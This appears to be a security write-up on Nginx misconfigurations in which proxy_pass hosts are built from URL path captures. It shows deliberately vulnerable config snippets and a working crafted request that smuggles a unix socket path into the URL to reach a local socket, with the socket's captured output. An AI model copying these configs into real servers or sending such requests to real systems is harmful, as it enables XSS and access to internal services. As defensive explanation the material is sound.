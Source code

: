 
## Proxy requests

### Controlling `proxy_pass` host
In some setups, a matching path is used as part of the hostname to proxy the request to such as the following examples.
```
location /backend {
  proxy_pass http://$host; # To repeat: don't do this!
}

location ~ /static/(.\*)/(.\*) {
  proxy_pass   http://$1-example.s3.amazonaws.com/$2;
}
```

In this case, any URL under `yourdomain.com/static/js/` would be served from S3, in the corresponding `js-example` bucket. The regular expression states that `yourdomain.com/static/js/app-1555347823-min.js` would fetch the S3-object located at: `http://js-example.s3.amazonaws.com/app-1555347823-min.js`.

Since the bucket is attacker controlled (part of the URI path), this leads to XSS but also has further implications.

### Accessing HTTP speaking sockets (`.sock`)
The proxy_pass feature in Nginx supports proxying requests to local unix sockets. What might be surprising is that the URI given to proxy_pass can be prefixed with `http://` or as a UNIX-domain socket path specified after the word `unix` and enclosed in colons:
```
proxy_pass   http://unix:/tmp/backend.sock:/uri/;
```

To see if this was possible, we set up a local Unix socket using `socat` and an Nginx server configured with the bug:

```
$ socat UNIX-LISTEN:/tmp/mysocket STDOUT
```

```
location ~ /static/(.\*)/(.\*.js) {
    proxy_pass   http://$1\-example.s3.amazonaws.com/$2;
}
```

For this request:
```
GET /static/unix:%2ftmp%2fmysocket:TEST/app-1555347823-min.js HTTP/1.1
Host: example.com
```

The socket receives this information:
```
GET TEST\-example.s3.amazonaws.com/app-1555347823-min.js HTTP/1.0
Host: localhost
Connection: close
```
